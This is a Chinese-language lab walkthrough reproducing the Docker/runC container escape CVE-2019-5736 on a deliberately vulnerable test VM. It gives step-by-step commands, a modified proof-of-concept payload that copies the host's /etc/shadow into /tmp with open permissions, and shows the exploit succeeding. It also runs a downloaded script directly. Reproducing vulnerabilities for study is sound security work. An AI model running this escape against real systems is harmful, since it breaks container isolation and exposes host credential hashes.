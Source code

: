 # CVE-2019-5736 Docker逃逸 复现

<p align="center">
    <img src="../../../../assets/img/banner/Docker.png">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- Centos7
- docker : 18.06.0-ce
- runC : 1.0.0-rc6

---

# 安装环境

**漏洞影响版本**
- Docker Version < 18.09.2
- runC Version <= 1.0-rc6

---

**修改 runC 版本**

默认 runC 版本是无法复现该漏洞的,需要手动修改
```bash
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
mv runc.amd64 /usr/bin/runc
chmod +x /usr/bin/runc
runc --version
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/1.png)

**安装 docker**
```bash
yum install -y epel-release
wget https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/
chmod +x index.html
./index.html
```

使用安装完毕后,可能会自动进入 docker 容器,这里不管,直接重启机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/2.png)

**启动容器**

等待机器重启完毕,这里启动 docker 服务,然后进入 docker 容器
```bash
systemctl start docker
docker run -it ubuntu:18.04 "/bin/bash"
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/3.png)

再启一个 bash,同时这个窗口不要关闭,看一下 docker 容器的 ID
```bash
docker ps
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/4.png)

**下载 payload**

- https://github.com/Frichetten/CVE-2019-5736-PoC

下载的 main.go,修改下 package,改成,payload 也稍微修改
```
package main

var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
```

然后 windows 下需配置编译参数,linux 可直接编译
```
CGO_ENABLED=0;GOOS=linux;GOARCH=amd64
go build main.go
```

把编译出来的二进制文件 main,上传至目标机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/10.png)

**使用 payload**

这里将 main 复制到容器的 /home 目录下,id 值就是之前 docker ps 看到的值
```bash
docker cp main xxxxxxxxx:/home
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/5.png)

回到一开始的窗口,现在进入 home 目录,就可以看到上传上来的 main 文件了,加权限,运行
```bash
cd /home
ls
chmod +x main
./main
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/6.png)

这里再返回到第二个窗口,这个窗口刚上传 main 文件,现在再这个窗口里进入容器,触发 payload,id 值就是之前 docker ps 看到的值
```bash
docker exec -it xxxxxxxxx /bin/sh
exit
cd /tmp/
ls
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/7.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/8.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/9.png)

可以看到，宿主机下 tmp 写了 shadow 文件，payload 成功执行
